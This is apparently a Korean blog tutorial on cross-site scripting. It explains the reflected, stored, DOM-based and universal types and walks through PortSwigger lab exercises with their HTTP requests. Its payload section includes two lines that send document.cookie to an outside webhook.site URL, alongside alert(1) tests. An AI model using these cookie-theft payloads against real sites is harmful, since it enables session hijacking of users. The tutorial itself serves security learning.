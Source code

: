 ```yaml
---
title: "XSS(Cross Site Script)"
date: 2022-01-26 +0900
img_path: /assets/img/posts/2022-01-26-XSS(Cross Site Script)
categories: [Hacking, Web]
tags: ['web', 'xss', 'client side attack', '2022']
---
```

## XSS란?

XSS는 **Cross Site Script**의 약어로써 공격자가 웹 리소스에 **악성 스크립트를 삽입**하는 공격입니다.

웹 이용자는 해당 스크립트를 실행시키면서 계정의 세션 정보를 탈취 당할 수 있고, 공격자는 세션정보를 통해 다른 이용자의 계정으로 임의의 기능을 수행할 수 있습니다.

### XSS는 언제 발생되는가?

- 사용자의 입력한 내용을 그대로 출력하는 기능에서 주로 발생합니다.
- HTML, CSS, JS와 같은 코드가 포함된 게시물을 조회할 경우 공격자가 입력한 스크립트가 실행될 수 있습니다.

### XSS 종류

| 종류 | 설명 |
| :--- | :--- |
| Reflected XSS | 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS |
| Stored XSS | 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS |
| Dom-based XSS | 악성 스크립트가 DOM 내부의 동작을 통해서 실행되는 XSS |
| Universal XSS | 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS |

## XSS 스크립트

스크립트를 삽입할 수 만 있다면 JS로 원하는 기능들을 수행할 수 있습니다(CORS, SOP 같은 mitigation으로 인해서 실행에 제약이 걸리는 경우를 제외하면…).

아래와 같이 `alert(1)` 을 이용해 창을 띄워서 XSS가 가능한지 테스트를 하거나, cookie를 탈취하는 스크립트를 주로 사용합니다.

또한 스크립트를 작성할 때 `<script>` 태그를 사용해주기도 하고 `onerror`, `onload` 와 같은 Event Listner를 통해서 JS 코드를 실행시키기도 합니다.



```jsx
<script>alert(1)</script>
<script>location.href='https://webhook.site/.../?x='+document.cookie</script>
<img src=x onerror="location.href='https://webhook.site/.../?x='+document.cookie">
...
```

> **위의 예시 외에도 여러가지 방법으로 스크립트를 작성할 수 있고, 필터링이 되었을 때 우회하는 방법도 존재합니다.**
{: .prompt-info }

## Reflected XSS

- 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다.
- 검색창을 통해 스크립트를 포함해서 검색하는 방식이 있습니다.
- Click Jacking 또는 Open Redirect 등 다른 취약점과 연계해서 사용됩니다.

다음은 PostSwigger에서 만든 [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
GET /?search=<script>alert(1)</script> HTTP/2
```

![Untitled.png](Untitled.png)
_Reflect XSS로 alert창을 띄운 화면_

## Stored XSS

- 서버에 데이터베이스 또는 파일 등으로 저장된 컨텐츠를 조회할 때 발생하게 됩니다.
- 주로 게시글 또는 댓글을 업로드할 때 악성 스크립트를 포함시키는 방식이 있습니다.

다음은 PostSwigger에서 만든 [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded) 공격 실습 사이트에서 XSS 공격을 시도한 payload와 성공 화면입니다.

```
POST /post/comment HTTP/2
Host: 0a6100980435d4358088942100db000f.web-security-academy.net
...

Id=5&comment=<img src=x onerror=alert(1)>&name=asdf&email=asdf%40asdf.adsf&website=
```

![Untitled%201.png](Untitled%201.png)
_사용자가 입력한 스크립트가 그대로 삽입된 것을 볼 수 있다_

![Untitled%202.png](Untitled%202.png)
_Stored XSS로 alert창을 띄운 화면_